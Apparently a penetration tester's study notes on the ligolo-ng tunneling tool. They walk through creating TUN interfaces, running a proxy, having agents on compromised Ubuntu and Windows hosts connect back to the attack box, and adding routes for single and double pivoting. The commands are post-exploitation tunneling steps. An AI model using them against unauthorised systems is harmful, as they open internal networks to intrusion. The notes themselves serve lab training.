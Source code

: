 [https://www.youtube.com/watch?v=de7IP_uZK6E](https://www.youtube.com/watch?v=de7IP_uZK6E) check his other vidoes

# ligolo-ng
- **Don't have 32bit agents**.
- It is binary you should transfer to the pivot.
- It doesn't need administrative privs to run.
- It create new configurations where you run it!! watch out.
- You can't use Pivoting for network packet sniff.

## Steps
### 1. in my machine, create virtual interface for ligolo “**no need to do it again**”

```sh
sudo ip tuntap add user slom mode tun ligolo  
sudo ip link set ligolo up  
```

or use
```sh
ligolo-ng » interface_create --name "evil-cha"  
INFO[3185] Creating a new "evil-cha" interface...         
INFO[3185] Interface created!

```
- `ip tuntap add`: Linux command to add a TUN/TAP device
- `user slom`: Assign ownership of the interface to the `kali` user
- `mode tun`: Create a **TUN** device (IP-level traffic, not Ethernet frames)
- `ligolo`: Name of the interface (you'll later use this in `ip link set`)
- When Ligolo-NG proxy runs, it tries to use an interface like `ligolo0` or `ligolo`, but if it doesnâ€™t exist or you lack permissions, it will fail

### 2. Start the proxy in my machine:

```sh
slom:$ ligolo -selfcert  
Listening on 0.0.0.0:11601
```

### 3. In the first pivot
```sh
pivot1:$ ./agent -connect 192.168.1.4:11601 -ignore-cert
```
   You should get connection back in slom.
```sh
INFO[1453] Agent joined.                                 id=005056946fe8 name=ubuntu@WEB01 remote="10.129.123.241:36224"  
ligolo-ng » session  
? Specify a session : 1 - ubuntu@WEB01 - 10.129.123.241:36224 - 005056946fe8  
[Agent : ubuntu@WEB01] »  
```
### 4. When get connection, we need to create a route

```sh
sudo ip route add internalUbuntuNetworkID/24 dev ligolo
```

### 5. Start the tunnel
```sh
    [Agent : ubuntu@WEB01] »  start
```

---

## For every new network it will have new virtual-interface tuntap

Now lets make the windows as our 2nd pivot
    
    sudo ip tuntap add user slom mode tun ligolo-double   
    sudo ip link set ligolo-double up  
    or  
    ligolo-ng » interface_create --name "ligolo-double"
    
    - In Ubuntu “1st pivot”, we will create listener:
    
    listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
    
    - This makes **double pivoting easier**, especially when:
        - - - - - - - You don't know in advance which interface/IP will be reachable by the next (3rd or 4th) host.
                                - You want flexibility without binding to a specific IP like `192.168.x.x`.
    - **`--addr 0.0.0.0:11601`**: Listen on _all network interfaces_ (0.0.0.0), so **any host** that can reach this machine can connect to port 11601.
    - **`--to 127.0.0.1:11601`**: Forward that traffic to `localhost:11601` on this machine (where the **second Ligolo agent** is probably connecting in the second pivot).
    - -
        
        ### - Why This Helps in Multi-hop Scenarios
        
        - - - - - - - - - - Let's say you're on:
    
    Attack box → pivot1 → pivot2 → target
    
    - You let `pivot2` connect _back_ to `pivot1:11601`, and it gets **proxied internally** to Ligolo's agent/tunnel.
    - You don’t need to mess with routing or figuring out `pivot1`'s specific internal IP — **just forward and forget**.
- In Windows, You will run `agent` to connect back to the ubuntu listener:
    
    windows> .\agent.exe -connect 10.10.8.9:11601 -ignore-cert
    
    - We will get Agent joined message.
- On our Attackbox, we should enable the tunnel and create our route
    
    ligolo*> tunnel_start --tun ligolo-double 
    
    - Create route
    
    sudo ip route add 172.16.0.0/24 dev ligolo-double